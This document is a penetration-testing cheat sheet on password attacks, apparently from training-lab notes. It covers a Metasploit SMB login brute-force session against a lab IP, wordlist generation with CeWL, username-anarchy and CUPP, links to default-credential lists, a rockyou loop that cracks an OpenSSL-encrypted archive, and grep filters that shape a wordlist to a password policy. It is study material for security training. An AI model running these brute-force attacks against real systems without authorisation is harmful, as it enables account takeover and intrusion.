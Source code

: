 # Metasploit Brute Force SMB Login

```
msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options
Module options (auxiliary/scanner/smb/smb_login):

Name               Current Setting  Required  Description
----               ---------------  --------  -----------

ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
BLANK_PASSWORDS    false            no        Try blank passwords for all users
BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
DB_ALL_PASS        false            no        Add all passwords in the current database to the list
DB_ALL_USERS       false            no        Add all users in the current database to the list
DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
PASS_FILE                           no        File containing passwords, one per line
PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
RECORD_GUEST       false            no        Record guest-privileged random logins to the database
RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT              445              yes       The SMB service port (TCP)
SMBDomain          .                no        The Windows domain to use for authentication
SMBPass                             no        The password for the specified username
SMBUser                             no        The username to authenticate as
STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
THREADS            1                yes       The number of concurrent threads (max one per host)
USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
USER_AS_PASS       false            no        Try the username as the password for all users
USER_FILE                           no        File containing usernames, one per line
VERBOSE            true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list

msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list

msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run
```

# Custom Wordlist

## Generating Wordlists Using CeWL

CeWL uses a WebCrawler to extract important information about a company and then generates a wordlist.

```bash
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

## Username-Anarchy (Username Wordlist Generation)

```bash
./username-anarchy -i /home/ltnbob/names.txt 
```

### Username-Anarchy using specified format

```bash
/username-anarchy --input-file DATA/users  --select-format first,flast,first.last,firstl > DATA/names-list
```

## **CUPP**

```bash
cupp -i #interactive mode
```

# Default Credentials

[GitHub - ihebski/DefaultCreds-cheat-sheet: One place for all the default credentials to assist the Blue/Red teamers activities on finding devices with default password 🛡️](https://github.com/ihebski/DefaultCreds-cheat-sheet)

# Default Credentials - Routers

[https://www.softwaretestinghelp.com/default-router-username-and-password-list/](https://www.softwaretestinghelp.com/default-router-username-and-password-list/)

# **Cracking OpenSSL Encrypted Archives**

```bash
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```

#
# Filter wordlist based on a password policy

**SCENARIO (Password Policy)**

- Minimum length: 8 characters
- Must include:
    - At least one uppercase letter
    - At least one lowercase letter
    - At least one number

## Filter with Grep

### **Minimun character length**

```bash
grep -E '^.{8,}$' wordlist.txt > new-wordlist.txt
```

### At least one uppercase letter

```bash
grep -E '[A-Z]' new-wordlist.txt > new-wordlist2.txt
```

### **At least one lowercase letter**

```bash
grep -E '[a-z]' new-wordlist2.txt > new-wordlist3.txt
```

### At least one number

```bash
grep -E '[0-9]' new-wordlist3.txt > final-wordlist.txt
```
